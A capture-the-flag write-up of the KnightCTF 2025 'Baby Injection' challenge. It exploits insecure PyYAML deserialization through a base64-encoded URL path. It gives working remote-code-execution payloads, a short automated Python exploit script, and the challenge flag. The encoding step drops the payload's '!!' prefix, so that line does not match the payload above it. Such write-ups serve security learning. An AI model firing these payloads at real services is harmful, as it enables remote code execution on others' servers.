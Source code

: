 # Baby Injection

<!--more-->
### Challenge Description

![Challenge Presentation](/images/KnightCTF-2025/Baby-Injection/challenge_presentation.png "Challenge Presentation")

### Initial Analysis

The site appears as follows:

![Site Presentation](/images/KnightCTF-2025/Baby-Injection/site_presentation.png "Site Presentation")

The first thing that immediately stands out is the site's URL:

```
http://172.105.121.246:5990/eWFtbDogSXRzIHlhbWwgYnJvLCBoYWNrIG1lIGlmIHlvdSBjYW4hISE=
```


In fact, that looks like a base64 encoding. Let's try to decode it:

```bash
 echo "eWFtbDogSXRzIHlhbWwgYnJvLCBoYWNrIG1lIGlmIHlvdSBjYW4hISE=" | base64 -d
```

Decoding it, I got the following:

```yml
yaml: Its yaml bro, hack me if you can!!!
```

So, the decoded base64 seems to be reflected on the page, as we can see from the previous screenshot. It seems that since it mentions YAML, this could be a case of YAML insecure deserialization. In fact, looking at the request header, we can tell that everything is being executed with Python. Since Python has a library called PyYAML, we can exploit the deserialization process to achieve Remote Code Execution (RCE). 

### Exploit
I personally used this payload:

```yml
yaml: !!python/object/apply:eval ["__import__('os').listdir('.')"]
```

But many other payloads could have been used, such as:

```yml
yaml: !!python/object/apply:subprocess.getoutput ["ls -al"]
```
Other payloads can be found on [PayloadsAllTheThings](). So, I simply encoded it in base64:

```bash
echo "yaml: python/object/apply:subprocess.getoutput ['ls -al']" | base64
```

And that's how I formed the URL for injecting the "ls -al" command:

```
http://172.105.121.246:5990/eWFtbDogcHl0aG9uL29iamVjdC9hcHBseTpzdWJwcm9jZXNzLmdldG91dHB1dCBbJ2xzIC1hbCdd
```

By opening the URL, the command was executed on the server, listing the directories, and in doing so, I found the flag:

![Manual Flag](/images/KnightCTF-2025/Baby-Injection/manual_flag.png "Manual Flag")

### Automated Exploit

I also created an automated Python exploit for extracting the flag:

```python
import requests
import base64
import re

url = "http://172.105.121.246:5990/"
payload = '''yaml: !!python/object/apply:eval ["__import__('os').listdir('.')"]'''
print("\nFLAG: " + re.search(r'KCTF{[a-f0-9]+}', requests.get(url + base64.b64encode(payload.encode('utf-8')).decode('utf-8')).text).group(0))
```

### Flag
{{< admonition danger "Flag" >}}
{{< typeit tag=h4 >}}
KCTF{d38787fb0741bd0efdad8ed01f037740}
{{< /typeit >}}
{{< /admonition >}}

